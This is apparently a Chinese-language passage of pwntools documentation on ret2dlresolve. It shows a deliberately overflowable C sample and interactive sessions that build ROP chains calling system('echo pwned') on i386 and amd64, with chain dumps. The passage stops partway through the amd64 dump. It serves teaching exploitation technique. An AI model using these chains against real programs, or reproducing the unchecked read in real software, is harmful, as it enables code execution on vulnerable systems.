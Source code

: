 ‍

## ret2dlresolve

‍

‍

‍

提供自动有效负载生成，以利用缓冲区溢出 使用 ret2dlresolve。

我们使用以下示例程序：

```python
#include <unistd.h>
void vuln(void){
    char buf[64];
    read(STDIN_FILENO, buf, 200);
}
int main(int argc, char** argv){
    vuln();
}
```

我们可以使用这些示例二进制文件自动执行开发过程。

```python
>>> context.binary = elf = ELF(pwnlib.data.elf.ret2dlresolve.get('i386'))
>>> rop = ROP(context.binary)
>>> dlresolve = Ret2dlresolvePayload(elf, symbol="system", args=["echo pwned"])
>>> rop.read(0, dlresolve.data_addr) # do not forget this step, but use whatever function you like
>>> rop.ret2dlresolve(dlresolve)
>>> raw_rop = rop.chain()
>>> print(rop.dump())
0x0000:        0x80482e0 read(0, 0x804ae00)
0x0004:        0x80484ea <adjust @0x10> pop edi; pop ebp; ret
0x0008:              0x0 arg0
0x000c:        0x804ae00 arg1
0x0010:        0x80482d0 [plt_init] system(0x804ae24)
0x0014:           0x2b84 [dlresolve index]
0x0018:          b'gaaa' <return address>
0x001c:        0x804ae24 arg0
>>> p = elf.process()
>>> p.sendline(fit({64+context.bytes*3: raw_rop, 200: dlresolve.payload}))
>>> p.recvline()
b'pwned\n'
```

您还可以在 AMD64 上使用：`Ret2dlresolve`​

```python
>>> context.binary = elf = ELF(pwnlib.data.elf.ret2dlresolve.get('amd64'))
>>> rop = ROP(elf)
>>> dlresolve = Ret2dlresolvePayload(elf, symbol="system", args=["echo pwned"])
>>> rop.read(0, dlresolve.data_addr) # do not forget this step, but use whatever function you like
>>> rop.ret2dlresolve(dlresolve)
>>> raw_rop = rop.chain()
>>> print(rop.dump())
0x0000:         0x400593 pop rdi; ret
0x0008:              0x0 [arg0] rdi = 0
0x0010:         0x400591 pop rsi; pop r15; ret
0x0018:         0x601e00 [arg1] rsi = 6299136
0x0020:      b'iaaajaaa' <pad r15>
0x0028:         0x4003f0 read
0x0030:         0x400593 pop rdi; ret
0x0038:         0x601e48 [arg0] rdi = 6299208
0x0040:         0x4003e0 [plt_init] system
```